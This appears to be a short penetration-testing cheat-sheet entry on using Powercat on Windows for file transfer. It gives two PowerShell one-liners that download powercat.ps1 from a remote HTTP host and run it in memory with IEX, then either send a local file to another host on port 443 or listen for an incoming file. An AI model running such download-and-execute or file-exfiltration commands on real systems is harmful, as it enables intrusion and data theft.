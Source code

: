 # Powercat usage (Windows only)
## File transfer
```powershell
# Send File:
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.109:8000/powercat.ps1');powercat -c 10.1.1.1 -p 443 -i C:\inputfile"
# Receive File:
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.109:8000/powercat.ps1');powercat -l -p 8000 -of C:\inputfile"
```